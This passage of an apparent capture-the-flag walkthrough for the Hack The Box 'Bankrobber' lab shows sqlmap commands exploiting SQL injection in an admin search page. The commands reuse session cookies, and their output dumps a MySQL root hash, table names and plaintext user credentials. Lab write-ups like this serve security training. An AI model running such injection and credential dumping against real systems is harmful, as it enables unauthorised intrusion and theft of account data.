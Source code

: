 3. We are now able to login as admin and get a few more options, backdoorchecker.php where we are allowed to execute 'dir'
   but only from local host. And search.php where we can query the database for users.

   "search.php/term=1" is injectable, we can enumerate the database manually or using sqlmap. For simplicity, i chose to
   go with the second option - sqlmap.

    root@p3:/opt/htb/machines/bankrobber/10.10.10.154# sqlmap -u https://bankrobber.htb/admin/search.php --cookie="id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D" --data term=1 --current-user --current-db --passwords --tables
      ..
      database management system users password hashes:
      [*] pma [1]:
          password hash: NULL
      [*] root [1]:
          password hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
      ..
      [16:49:43] [INFO] fetching tables for databases: 'bankrobber, information_schema, mysql, performance_schema, phpmyadmin, test'
      Database: bankrobber
      [3 tables]
      +----------------------------------------------------+
      | balance                                            |
      | hold                                               |
      | users                                              |
      +----------------------------------------------------+

    root@p3:/opt/htb/machines/bankrobber/10.10.10.154# sqlmap -u https://bankrobber.htb/admin/search.php --cookie="id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D" --data term=1 --search -D bankrobber -T users
      ..
      Database: bankrobber
      Table: users
      [4 entries]
      +----+------------------+----------+
      | id | password         | username |
      +----+------------------+----------+
      | 1  | Hopelessromantic | admin    |
      | 2  | gio              | gio      |
      | 3  | test123          | p3       |
      | 4  | test             | test     |
      +----+------------------+----------+


    We find a second pair of credentials (gio:gio), and also a password hash for root (F435725A173757E57BD36B09048B8B610FF4D0C4)
